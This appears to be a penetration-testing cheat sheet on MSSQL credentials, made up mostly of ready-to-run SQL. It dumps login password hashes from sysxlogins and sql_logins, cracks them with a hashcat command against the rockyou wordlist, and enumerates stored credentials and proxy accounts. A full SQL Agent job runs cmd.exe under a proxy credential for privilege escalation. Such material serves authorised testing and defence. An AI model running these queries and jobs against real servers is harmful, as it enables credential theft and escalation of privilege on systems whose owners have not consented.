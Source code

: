 # MSSQL - Credentials

## Summary

* [MSSQL Accounts and Hashes](#mssql-accounts-and-hashes)
* [List Credentials on the SQL Server](#list-credentials-on-the-sql-server)
* [Proxy Account Context](#proxy-account-context)


## MSSQL Accounts and Hashes

* MSSQL 2000
    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)
    ```

* MSSQL 2005
    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

Then crack passwords using Hashcat : `hashcat -m 1731 -a 0 mssql_hashes_hashcat.txt /usr/share/wordlists/rockyou.txt --force`

| Hash-Mode | Hash-Name | Example |
| ---  | --- | --- |
| 131  | MSSQL (2000) | 0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578 |
| 132  | MSSQL (2005) | 0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe |
| 1731 | MSSQL (2012, 2014) | 0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375 |


## List Credentials on the SQL Server

* List credentials configured on the SQL Server instance
    ```sql
    SELECT * FROM sys.credentials 
    ```

* List proxy accounts
    ```sql
    USE msdb; 
    GO 

    SELECT  
        proxy_id, 
        name AS proxy_name, 
        credential_id, 
        enabled 
    FROM  
        dbo.sysproxies; 
    GO 
    ```
    
* [dataplat/dbatools/Get-DecryptedObject.ps1](https://github.com/dataplat/dbatools/blob/7ad0415c2f8a58d3472c1e85ee431c70f1bb8ae4/private/functions/Get-DecryptedObject.ps1)


## Proxy Account Context

Agent Job using the registered proxy credential.

```sql
USE msdb; 
GO 

-- Create the job 
EXEC sp_add_job  
  @job_name = N'WhoAmIJob'; -- Name of the job 

-- Add a job step that uses the proxy to execute the whoami command 
EXEC sp_add_jobstep  
  @job_name = N'WhoAmIJob',  
  @step_name = N'ExecuteWhoAmI',  
  @subsystem = N'CmdExec',          
  @command = N'c:\windows\system32\cmd.exe /c whoami > c:\windows\temp\whoami.txt',           
  @on_success_action = 1,         -- 1 = Quit with success 
  @on_fail_action = 2,                     -- 2 = Quit with failure 
  @proxy_name = N'MyCredentialProxy';     -- The proxy created earlier 

-- Add a schedule to the job (optional, can be manual or scheduled) 
EXEC sp_add_jobschedule  
  @job_name = N'WhoAmIJob',  
  @name = N'RunOnce',  
  @freq_type = 1,             -- 1 = Once 
  @active_start_date = 20240820,       
  @active_start_time = 120000;            

-- Add the job to the SQL Server Agent 
EXEC sp_add_jobserver  
  @job_name = N'WhoAmIJob',  
  @server_name = N'(LOCAL)';  
```

Execute the Agent job so that a process will be started in the context of the proxy account and execute your code/command. 
`EXEC sp_start_job @job_name = N'WhoAmIJob'; `


## References

* [Hijacking SQL Server Credentials using Agent Jobs for Domain Privilege Escalation  - Scott Sutherland - September 10, 2024](https://www.netspi.com/blog/technical-blog/network-pentesting/hijacking-sql-server-credentials-with-agent-jobs-for-domain-privilege-escalation/)


